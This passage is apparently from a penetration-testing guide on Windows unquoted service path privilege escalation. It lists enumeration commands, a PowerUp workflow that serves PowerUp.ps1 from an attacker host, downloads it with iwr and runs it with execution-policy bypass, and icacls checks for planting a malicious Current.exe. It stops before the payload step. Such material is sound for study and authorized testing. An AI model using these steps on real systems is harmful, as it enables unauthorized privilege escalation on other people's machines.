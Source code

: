 General list of services.

```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```

Targeted enumeration to find potentially vulnerable paths.

```powershell
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```

```powershell
wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

wmic service get name,displayname,pathname,startmode | findstr /i /v "c:\windows\\" 
```

Search for services that are started when the system boots.

```powershell
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl
```

#### Automated approach
##### PowerUp

```bash
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .
python3 -m http.server 80
iwr -uri http://$MIO_IP/PowerUp.ps1 -Outfile PowerUp.ps1

powershell -ep bypass
. .\PowerUp.ps1
Get-UnquotedService
```

### 2. Execution of the attack

#### Manual approach

First of all, you need to check that it is possible to start and stop the service.

```bash
icacls "C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe"
```

Next, you need to identify the type of permissions you have on the folders connected to it.

```bash
icacls "C:\"
icacls "C:\Program Files"
icacls "C:\Program Files\Enterprise Apps"
```

Once you have identified the right place to insert the malicious file, you can proceed with loading that file. You need to name this file with the right name, in this case **Current.exe**, as you have write permissions in the **"C:\Program Files\Enterprise Apps"** folder:
